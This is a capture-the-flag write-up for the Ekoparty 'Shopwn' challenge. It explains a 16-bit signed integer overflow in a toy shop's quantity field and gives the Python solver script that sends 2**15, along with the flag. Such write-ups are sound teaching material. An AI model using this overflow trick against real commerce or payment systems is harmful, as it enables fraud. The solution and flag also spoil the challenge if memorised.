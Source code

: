 # Shopwn (Pwn, 375p, 76 solved)

A task very similar to Shopping, but this time we can pass only positive numbers as quantity.
The interface is exactly the same so again:

```
Welcome to Ekoparty shopping Center
Feel free to buy up to 5 items that you may like
Use wisely your coins, have fun!


You have 50 coins
What do you wanna buy today?
1. t-shirt		10
2. short		20
3. stickers		1
4. flag			?
```

This time the trick is to guess that since the server can check if our input is negative, it means there is a signed integer of some sort where our input is stored.
In such case there is a chance of causing integer overflow when this value is multiplied by the price.
We didn't know how many bits they're using but we got a hit with 16 bits.
So we send a large signed 16 bit integer, which has to overflow after multiplication.

We run:

```python
import hashlib
import re

import os

from crypto_commons.netcat.netcat_commons import nc, send, interactive


def PoW(task):
    while True:
        data = os.urandom(10)
        if hashlib.sha1(data).hexdigest()[0:6] == task:
            return data


def main():
    url = "shopping.ctf.site"
    port = 22222
    s = nc(url, port)
    data = s.recv(9999)
    task = re.findall("== (.*)", data)[0]
    send(s, PoW(task))
    print(s.recv(9999))
    send(s, "4")
    print(s.recv(9999))
    send(s, str(2 ** 15))
    print(s.recv(9999))
    interactive(s)


main()

```

and we get `EKO{dude_where_is_my_leak?}`
